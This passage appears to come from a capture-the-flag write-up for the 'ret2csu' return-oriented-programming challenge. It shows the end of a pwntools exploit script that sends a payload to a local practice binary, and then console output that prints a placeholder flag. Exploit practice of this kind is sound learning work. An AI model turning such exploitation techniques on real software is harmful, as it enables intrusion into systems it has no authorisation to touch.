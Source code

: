 ```python
#pid = util.proc.pidof(ret2csu)[0]
#print("[*] PID = " + str(pid))
#util.proc.wait_for_debugger(pid)

ret2csu.readuntil('>')

ret2csu.sendline(payload)

output = ret2csu.readall()
print(output)
```

And proof of concept. 

```text
[w3ndige@main ret2csu]$ python exploit.py 
[+] Starting program './ret2csu': Done
[+] Recieving all data: Done (34B)
[*] Program './ret2csu' stopped with exit code -11
b' ROPE{a_placeholder_32byte_flag!}\n'
```